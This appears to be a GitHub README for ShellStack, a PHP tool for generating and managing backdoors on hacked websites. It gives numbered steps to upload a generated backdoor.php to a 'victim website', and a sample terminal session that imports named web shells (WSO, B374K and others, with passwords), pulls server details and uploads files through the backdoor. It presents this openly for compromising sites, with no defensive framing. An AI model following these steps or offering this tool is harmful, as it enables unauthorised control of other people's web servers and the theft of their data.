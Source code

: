 # ShellStack 
#### Version 1.0
----
ShellStack is a PHP based backdoor management tool. This Tool comes handy for "HACKERS" who wish to keep a track of every website they hack. The tool generates a backdoor file which you just have to upload to the site and put the backdoor URL in the shells.txt present in the tool's directory.

# With ShellStack You can
- Import PHP Shells
- Get Server Details
- Upload Files From Your System using your terminal
- And Above all You Can Manage Your Backdoors Efficiently

# How To Use
1. `git clone https://github.com/Tuhinshubhra/shellstack`
2. `cd shellstack`
3. `php shellstack.php`
4. `generatebd` and exit the tool use <kbd>CTRL</kbd> + <kbd>C</kbd> - This will generate a backdoor file in the same directory as of the tool in a file named **backdoor.php**
5. Upload The Backdoor File To The Victim website
6. Copy The Backdoor URL and paste it in the **shells.txt** file present in the tool's directory and save it (*Each backdoor is separated by a new line*)
7. `php shellstack.php`
8. Enter The **Serial No** Assigned To The Backdoor
9. Rest is pretty Self explanatory

**Watch The Video Here:** https://youtu.be/umk3ZNZ5Y1I

# Requirements
``` 
php
curl 
```
# Example
```
root@R3D_MACH1N3:/home/redhaxor/Desktop/shellstack# php shellstack.php


________________________________________________________________________________
_______ _     _ _______               _______ _______ _______ _______ _     _
|______ |_____| |______ |      |      |______    |    |_____| |       |____/
______| |     | |______ |_____ |_____ ______|    |    |     | |_____  |    \_
________________________________________________________________________________

                    Simple Backdoor Management System
                    Coded By R3D#@x0R_2H1N A.K.A Tuhinshubhra 
                    Shout Out: LulZSec India  
================================================================================



List Of Backdoors:

0. http://localhost/backdoor.php
=============================================

[#] Enter Either Of These (Backdoor No.|help|generatebd) : 0

[+] Shell Selected: http://localhost/backdoor.php
[+] Validating Backdoor: Backdoor Found!

List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):2

[+] Server Info
[i] Sending Request And Getting Response...
[i] Server: Linux R3D_MACH1N3 4.9.0-kali4-amd64 #1 SMP Debian 4.9.30-1kali1 (2017-06-06) x86_64
[i] Server IP: 127.0.0.1


Press Enter To Continue


List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):1


List Of Shells
===============
[1] Dhanush shell {User & Pass : shellstack123}
[2] B374K shell {Pass : shellstack123}
[3] Kurama shell V.1.0 {Pass : red}
[4] WSO shell {Pass : shellstack123}
[5] MiNi shell {User & Pass : shellstack123}

[#] Select Shell To Import(1-5):1


[i] Importing Shell...
[i] Sending Request And Getting Response...
[R] Dhanush Shell Imported Successfully To /var/www/html/dhanush.php


Press Enter To Continue


List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):5
root@R3D_MACH1N3:/home/redhaxor/Desktop/shellstack# 

```
# Release(s)
> Version 1.0 On 14-06-2017

